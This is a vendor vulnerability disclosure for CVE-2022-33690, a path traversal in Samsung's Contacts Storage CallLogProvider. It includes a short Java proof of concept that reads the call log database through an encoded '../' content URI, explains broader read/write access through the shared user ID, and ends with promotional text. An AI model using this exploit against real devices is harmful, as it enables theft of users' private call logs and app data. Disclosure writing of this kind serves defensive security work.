

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Contacts Storage</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.providers.contacts</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.21</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.07.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33690">CVE-2022-33690</a> (SVE-2022-0687)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$530</td>
    </tr>
</table>

# Description

Oversecured report:


In the Contacts Storage system app, the exported `com.android.providers.contacts.CallLogProvider` provider handles incoming URIs insecurely in the `openFile()` method. The point is that the `Uri.getLastPathSegment()` method returns a decoded version of the last segment, which the app insecurely concatenates to the base path.

**Proof of Concept**
```java
Uri uri = Uri.parse("content://call_log/call_composer/..%2F..%2Fdatabases%2Fcalllog.db");
try (InputStream i = getContentResolver().openInputStream(uri)) {
    Log.d("evil", IOUtils.toString(i));
} catch (Throwable th) {
    throw new RuntimeException(th);
}
```

An additional impact of this vulnerability is that the app has the setting `android:sharedUserId="android.uid.shared"`. This allows the attacker to also gain read/write access to files of other apps that are running under the `android.uid.shared` UID:
- `com.android.calllogbackup`
- `com.android.providers.blockednumber`
- `com.android.providers.userdictionary`

## References

- [Oversecured Blog. Android security checklist: theft of arbitrary files. Exported providers](https://blog.oversecured.com/Android-security-checklist-theft-of-arbitrary-files/#exported-providers)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.